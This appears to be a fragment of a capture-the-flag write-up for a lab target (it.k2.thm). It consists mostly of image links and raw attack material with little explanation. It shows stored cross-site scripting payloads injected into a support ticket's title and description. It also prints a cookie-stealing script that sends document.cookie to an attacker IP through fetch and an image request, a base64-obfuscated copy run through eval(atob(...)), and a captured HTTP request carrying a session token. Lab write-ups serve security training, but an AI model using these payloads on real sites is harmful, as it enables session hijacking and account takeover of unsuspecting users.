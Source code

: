 <img width="530" height="194" alt="image" src="https://github.com/user-attachments/assets/551a75ea-bb49-48bd-99b1-d85d41ec4955" />

<br>
<br>
<br>
<p align="center">Title: Hello; Description: --> Ticket submitted successfully! It will be reviewed shortly!</p>

<img width="365" height="135" alt="image" src="https://github.com/user-attachments/assets/9dfd1520-0f7e-41db-86ee-96f0191b99c0" />

<br>

<img width="1019" height="359" alt="image" src="https://github.com/user-attachments/assets/6e2f2439-c49b-47c1-9320-cea3b8ae5358" />

<br>

Title : <script src='http://10.201.108.225:8000/title'></script>

Description: <script src='http://10.201.108.225:8000/description'></script>

<p>cookiestealer.js</p>

:~/K2# cat cookiestealer.js
fetch('http://10.201.88.234/cookie='+btoa(document["cookie"]));

__

new Image().src='http://10.201.108.225:8000/hey?cookie=' + document.cookie;


__

bmV3IEltYWdlKCkuc3JjPSdodHRwOi8vMTAuMjAxLjEwOC4yMjU6ODAwMC9oZXk/Y29va2llPScgKyBkb2N1bWVudC5jb29raWU7


__

POST /dashboard HTTP/1.1
Host: it.k2.thm
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 161
Origin: http://it.k2.thm
Connection: close
Referer: http://it.k2.thm/dashboard
Cookie: session=eyJhdXRoX3VzZXJuYW1lIjoibGlsaSIsImlkIjoxLCJsb2dnZWRpbiI6dHJ1ZX0.aNrnBw.ozF02MCsRjyFFHLRUvvHLCFbG_g
Upgrade-Insecure-Requests: 1
Priority: u=0, i

title=hello&description=<script>eval (atob('bmV3IEltYWdlKCkuc3JjPSdodHRwOi8vMTAuMjAxLjEwOC4yMjU6ODAwMC9oZXk/Y29va2llPScgKyBkb2N1bWVudC5jb29raWU7'));</script>
